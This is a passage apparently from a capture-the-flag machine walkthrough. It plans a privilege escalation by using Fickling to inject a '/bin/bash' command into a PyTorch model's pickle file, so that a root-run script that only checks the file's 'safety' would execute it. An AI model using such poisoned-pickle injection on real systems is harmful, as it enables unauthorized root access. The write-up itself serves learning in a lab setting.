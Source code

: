 ```sh

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
    
fi
```

Luckily, it is a Bash script. Again, our thoughts are to use a malicious pickle file to spawn a root shell. Doing some investigation, we hve found the tool [Fickling](https://github.com/trailofbits/fickling) that can decompile and inject code into pickle files. This tool is also the one used to check the safety of pickle files in the above script. So, lets try to inject some malicious code into a data.pkl file.

First, we have to get an example model.pth file where whe can inject our bad pickle. We can do this with the help from [this article](https://machinelearningmastery.com/save-and-load-your-pytorch-models/)

With our model.pth generated, we can try to inject a /bin/bash command and see if it is flagged as malicious:

```sh
python ~/.local/bin/fickling --inject "/bin/bash" data.pkl 
```

![image](Scr_13.png)


[comment]: <> (Insertar imagen de la carátula de la máquina)